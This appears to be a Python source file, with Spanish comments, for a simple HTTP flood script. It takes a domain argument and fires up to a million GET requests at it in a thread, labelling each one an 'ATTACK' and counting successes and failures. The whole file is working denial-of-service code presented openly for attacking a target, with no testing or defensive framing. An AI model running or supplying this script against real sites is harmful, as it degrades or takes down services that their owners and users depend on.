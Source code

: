 import sys
import threading
import requests

def ataque(dominio):
    print('DOMAIN ' + str(dominio))
    print('ATTACK START')
    num_max = 1000000  # Número máximo de ataques
    success_count = 0  # Contador de solicitudes exitosas
    failure_count = 0  # Contador de solicitudes fallidas

    for x in range(num_max):
        try:
            response = requests.get(dominio)
            if response.status_code == 200:
                success_count += 1
            else:
                failure_count += 1
            print('ATTACK #' + str(success_count + failure_count))
        except:
            failure_count += 1
            print('ATTACK #' + str(success_count + failure_count))

    print('ATTACK COMPLETE')
    print('Successful requests:', success_count)
    print('Failed requests:', failure_count)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print('Debe proporcionar un dominio como argumento de línea de comandos.')
        sys.exit(1)

    dominio = sys.argv[1]
    t = threading.Thread(target=ataque, args=(dominio,))
    t.start()
